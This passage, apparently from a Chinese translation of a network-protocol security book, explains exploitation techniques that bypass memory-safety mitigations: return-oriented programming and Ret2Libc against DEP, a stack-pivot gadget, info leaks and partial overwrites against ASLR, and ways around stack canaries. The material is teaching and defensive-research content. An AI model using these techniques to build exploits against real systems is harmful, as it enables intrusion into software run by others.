如果启用了 DEP，你可以使用面向返回的编程方法作为一种解决方法。

#### ***面向返回的编程反制技术***

*面向返回的编程（ROP）* 技术的发展是直接回应平台上 DEP 的增加。ROP 是一种简单的技术，它重新利用已经可执行的现有指令，而不是将任意指令注入内存并执行它们。我们来看一个简单的堆栈内存破坏漏洞利用的例子，使用这种技术。

在类 Unix 平台上，C 库提供了用于应用程序的基本 API，比如打开文件，它还包含允许通过程序代码传递命令行来启动新进程的函数。`system()` 函数就是这样一个函数，其语法如下：

```
int system(const char *command);
```

该函数接受一个简单的命令字符串，表示要运行的程序及其命令行参数。这个命令字符串会传递给命令解释器，我们稍后会详细讲解。现在需要知道的是，如果你在 C 应用程序中写入以下内容，它会在 shell 中执行`ls`应用程序：

```
system("ls");
```

如果我们知道 `system` API 在内存中的地址，我们可以将指令指针重定向到该 API 指令的起始位置；此外，如果我们能在内存中影响参数，我们就可以启动一个我们控制的新进程。调用 `system` API 允许你绕过 DEP，因为就处理器和平台而言，你在执行标记为可执行的内存中的合法指令。图 10-8 更详细地展示了这个过程。

在这个非常简单的可视化中，ROP 执行一个由 C 库 (libc) 提供的函数来绕过 DEP。这个技术，特别是被称为 *Ret2Libc*，为我们今天所知的 ROP 打下了基础。你可以将这种技术推广到使用 ROP 编写几乎任何程序，例如，通过操控堆栈实现一个完整的图灵完备系统。


*图 10-8：一个简单的 ROP 调用 `system` API*

理解 ROP 的关键是要知道，一系列指令不一定要像最初编译成程序的可执行代码那样按顺序执行。这意味着你可以将程序中或其他可执行代码（如库文件）中的小段代码提取出来，重新利用它们来执行开发者最初未打算执行的操作。这些执行某些有用功能的小段指令被称为 *ROP 小工具*。图 10-9 展示了一个更复杂的 ROP 示例，它打开一个文件，然后将数据缓冲区写入该文件。



*图 10-9：一个更复杂的 ROP 调用 `open` 然后使用几个小工具向文件写入数据*

因为从 `open` 返回的文件描述符的值可能无法预先知道，所以使用更简单的 Ret2Libc 技术来完成这个任务会更困难。

如果你有堆栈缓冲区溢出，填充堆栈以执行 ROP 操作序列是很容易的。但如果你只有通过其他方法获得初始代码执行权限，例如堆缓冲区溢出呢？在这种情况下，你将需要一个堆栈枢纽，它是一个 ROP 小工具，允许你将当前堆栈指针设置为已知的值。例如，如果在利用漏洞后 EAX 指向你控制的内存缓冲区（也许它是一个 VTable 指针），你就可以控制堆栈指针，并通过一个类似于 列表 10-21 的小工具执行你的 ROP 链。

```
xchg esp, eax # Exchange the EAX and ESP registers
ret           # Return, will execute address on new stack
```

*列表 10-21：使用 ROP 小工具获得执行权限*

列表 10-21 中显示的小工具将寄存器值 EAX 与寄存器值 ESP 交换，后者用于索引内存中的堆栈。因为我们控制 EAX 的值，所以可以将堆栈位置切换到一组操作（如 图 10-9 中的操作），这将执行我们的 ROP。

不幸的是，使用 ROP 绕过 DEP 并非没有问题。让我们来看看一些 ROP 的局限性以及如何解决这些问题。

#### ***地址空间布局随机化 (ASLR)***

使用 ROP 绕过 DEP 会带来一些问题。首先，你需要知道你试图执行的系统函数或 ROP 小工具的位置。其次，你需要知道堆栈或其他内存位置的地址，用作数据。然而，寻找位置并不总是一个限制因素。

当 DEP 首次引入 Windows XP SP2 时，所有系统二进制文件和主可执行文件都映射在一致的位置，至少对于特定的更新版本和语言是这样。（这就是为什么早期的 Metasploit 模块需要你指定语言）。此外，堆的操作和线程栈的位置几乎完全是可预测的。因此，在 XP SP2 上绕过 DEP 非常容易，因为你可以猜测到执行 ROP 链时可能需要的各个组件的位置。

##### **内存信息泄露漏洞**

随着*地址空间布局随机化（ASLR）*的引入，绕过 DEP 变得更加困难。顾名思义，这种缓解方法的目标是随机化进程地址空间的布局，以使攻击者更难预测。让我们看看几种攻击利用方式，如何绕过 ASLR 提供的保护。

在 ASLR 引入之前，信息泄露漏洞通常用于通过允许访问内存中受保护的信息（如密码）来绕过应用程序的安全性。这些类型的漏洞现在找到了新的用途：揭示地址空间的布局，以对抗 ASLR 的随机化。

对于这种类型的漏洞利用，你并不总是需要找到特定的内存信息泄露漏洞；在某些情况下，你可以*创建*一个信息泄露漏洞来利用内存损坏漏洞。我们可以以堆内存损坏漏洞为例。我们可以可靠地覆盖堆分配之后的任意字节数量，这些字节可以用来通过堆溢出泄露内存内容，像这样：一种常见的堆分配结构是包含长度前缀字符串的缓冲区，当分配字符串缓冲区时，额外的字节会被放在前面以容纳长度字段。然后，字符串数据存储在长度字段之后，如图 10-10 所示。



*图 10-10：将内存损坏转化为信息泄露*

最上面是原始的堆分配模式 ➊。如果易受攻击的分配位于内存中的字符串缓冲区之前，我们就有机会破坏字符串缓冲区。在任何损坏发生之前，我们只能读取字符串缓冲区中的 5 个有效字节。

在底部，我们通过足够的溢出仅修改字符串的长度字段 ➋。我们可以将长度设置为任意值，在这种情况下是 100 字节。现在，当我们重新读取字符串时，我们将得到 100 字节，而不是最初分配的 5 字节。因为字符串缓冲区的分配并不大，所以会返回来自其他分配的数据，这些数据可能包括敏感的内存地址，如 VTable 指针和堆分配指针。这个泄露提供了足够的信息来绕过 ASLR。

##### **利用 ASLR 实现漏洞**

由于性能和可用内存的限制，ASLR 的实现从来都不完美。这些缺陷导致了各种实现特定的漏洞，你也可以利用这些漏洞来泄露随机化的内存位置。

最常见的情况是，ASLR 中可执行文件的位置并不会在两个不同进程之间完全随机化，这可能导致一种漏洞，泄露网络应用程序连接的内存位置，即使这可能导致该特定进程崩溃。然后，内存地址可以在后续的利用中被使用。

在类 Unix 系统中，如 Linux，这种缺乏随机化的情况应该仅发生在被利用的进程是从现有主进程中分叉出来时。当一个进程分叉时，操作系统会创建一个原始进程的相同副本，包括所有加载的可执行代码。服务器（如 Apache）使用分叉模型来服务新的连接是非常常见的。主进程会监听服务器套接字，等待新的连接，一旦连接建立，当前进程的一个新副本会被分叉，连接的套接字会被传递给新进程来处理连接。

在 Windows 系统上，漏洞以不同的方式表现出来。Windows 实际上不支持进程分叉，尽管一旦特定的可执行文件加载地址被随机化，它将始终加载到相同的地址，直到系统重启。如果没有进行此操作，操作系统将无法在进程之间共享只读内存，导致内存使用量增加。

从安全角度来看，结果是，如果你能泄露一次可执行文件的位置，那么内存位置将保持不变，直到系统重启。你可以利用这一点，因为你可以从一次执行中泄露位置（即使导致进程崩溃），然后用这个地址进行最终的利用。

##### **绕过 ASLR 使用部分覆盖**

绕过 ASLR 的另一种方法是使用*部分覆盖*。因为内存通常被划分为不同的页面，例如 4096 字节，操作系统限制了内存和可执行代码的随机布局方式。例如，Windows 会在 64KB 边界上进行内存分配。这导致了一个有趣的弱点，即使高位是完全随机的，随机内存指针的低位也可能是可预测的。

低位缺乏随机化似乎不是什么大问题，因为如果你在内存中覆盖指针，你仍然需要猜测地址的高位。实际上，这正是它的作用：由于小端架构中指针值的存储方式，它使你能够在运行时选择性地覆盖指针值的一部分。

当前大多数处理器架构使用的是小端（我在“二进制字节序”中详细讨论了字节序问题，见第 41 页）。对于部分覆盖来说，了解小端最重要的一点是，值的低位存储在较低的地址中。内存损坏，比如栈或堆溢出，通常是从低地址写到高地址。因此，如果你能够控制覆盖的长度，就有可能选择性地只覆盖可预测的低位，而不覆盖随机的高位。然后，你可以利用部分覆盖将指针转换为指向另一个内存位置，比如 ROP 小工具。图 10-11 展示了如何使用部分覆盖改变内存指针。


*图 10-11：一个短覆盖的例子*

我们从地址 0x07060504 开始。我们知道，由于 ASLR，地址的高 16 位（0x0706 部分）是随机的，但低 16 位不是。如果我们知道指针引用的内存位置，我们可以选择性地更改低位，并准确指定一个可控的位置。在这个例子中，我们覆盖了低 16 位，将地址改为 0x0706BBAA。

#### ***使用内存金丝雀检测栈溢出***

内存*金丝雀*，或称*饼干*，用于通过检测内存损坏并立即使应用程序终止，从而防止内存损坏漏洞的利用。你最常见到它们用于栈内存损坏防护，但金丝雀也可以用于保护其他类型的数据结构，例如堆头或虚拟表指针。

内存金丝雀是应用程序在启动时生成的一个随机数。这个随机数存储在全局内存位置，以便应用程序中的所有代码都可以访问。这个随机数在进入函数时被推送到栈上。然后，当函数退出时，随机值会从栈上弹出，并与全局值进行比较。如果全局值与栈上弹出的值不匹配，应用程序会认为栈内存已被破坏，并尽快终止进程。图 10-12 显示了如何通过插入这个随机数来检测危险，像矿井中的金丝雀一样，帮助防止攻击者获取返回地址。



*图 10-12: 带栈金丝雀的栈溢出*

将金丝雀放在栈上返回地址的下方，确保任何修改返回地址的溢出破坏也会修改金丝雀。只要金丝雀值难以猜测，攻击者就无法控制返回地址。在函数返回之前，代码会检查栈金丝雀是否与预期的值匹配。如果不匹配，程序会立即崩溃。

##### **通过破坏局部变量绕过金丝雀保护**

通常，栈金丝雀仅保护当前执行函数的返回地址。然而，栈上有比正在溢出的缓冲区更多的内容可以被利用。可能存在指向函数的指针、指向具有虚函数表的类对象的指针，或者在某些情况下，可能存在可以被覆盖的整数变量，而这些也足以利用栈溢出。

如果栈缓冲区溢出具有可控的长度，那么可能在不破坏栈金丝雀的情况下覆盖这些变量。即使金丝雀被破坏，只要变量在金丝雀检查之前被使用，也可能不受影响。图 10-13 展示了攻击者如何在不影响金丝雀的情况下破坏局部变量。

在这个示例中，我们有一个栈上带有函数指针的函数。由于栈内存的布局，我们将溢出的缓冲区位于低地址处，而函数指针`f`也位于栈上 ➊。

当溢出执行时，它会破坏缓冲区上方的所有内存，包括返回地址和栈金丝雀 ➋。然而，在金丝雀检查代码运行（会终止进程）之前，函数指针`f`会被使用。这意味着我们仍然可以通过调用`f`来执行代码 ➌，而破坏永远不会被检测到。



*图 10-13: 破坏局部变量而不触发栈金丝雀*

现代编译器有很多方法可以防止破坏局部变量，包括重新排列变量，使得缓冲区总是在任何单一变量之上，而当变量被破坏时，可能会被用来利用漏洞。

##### **绕过堆栈缓冲区下溢的防护**

出于性能原因，并不是每个函数都会在堆栈上放置一个“看门狗”变量（canary）。如果函数没有操作堆栈上的内存缓冲区，编译器可能认为它是安全的，并且不会生成必要的指令来添加看门狗变量。在大多数情况下，这是正确的做法。然而，一些漏洞以非常规的方式溢出堆栈缓冲区：例如，漏洞可能导致下溢，而不是溢出，破坏堆栈下方的数据。图 10-14 展示了这种类型漏洞的一个示例。

图 10-14 展示了三个步骤。首先，调用`DoSomething()`函数 ➊。此函数在堆栈上设置一个缓冲区。编译器确定该缓冲区需要保护，因此它生成一个堆栈看门狗变量，以防止溢出覆盖`DoSomething()`的返回地址。其次，函数调用`Process()`方法，传递一个指向已设置缓冲区的指针。此时发生内存破坏。然而，`Process()`并没有溢出缓冲区，而是写入一个较低的值，例如通过引用`p[-1]` ➋。这导致了`Process()`方法的堆栈帧中返回地址的破坏，而该堆栈帧已经有堆栈看门狗变量的保护。第三，`Process()`返回到被破坏的返回地址，导致执行恶意代码 ➌。


*图 10-14：堆栈缓冲区下溢*

### **最后的总结**

在网络应用中发现并利用漏洞可能很困难，但本章介绍了一些你可以使用的技术。我描述了如何使用调试器对漏洞进行分类，以确定根本原因；掌握根本原因后，你可以继续利用这个漏洞。我还提供了编写简单的恶意代码并使用 ROP（返回导向编程）开发有效载荷，绕过常见的漏洞缓解技术 DEP（数据执行保护）的示例。最后，我描述了一些现代操作系统中常见的漏洞缓解技术，如 ASLR（地址空间布局随机化）和内存看门狗，以及绕过这些缓解措施的技术。

本书的最后一章就在这里。在这一点上，你应该已经掌握了如何捕捉、分析、逆向工程和利用网络应用程序的知识。提高技能的最佳方法是尽可能多地找到网络应用和协议。通过经验，你会轻松识别常见结构，并找出协议行为中常见的安全漏洞模式。
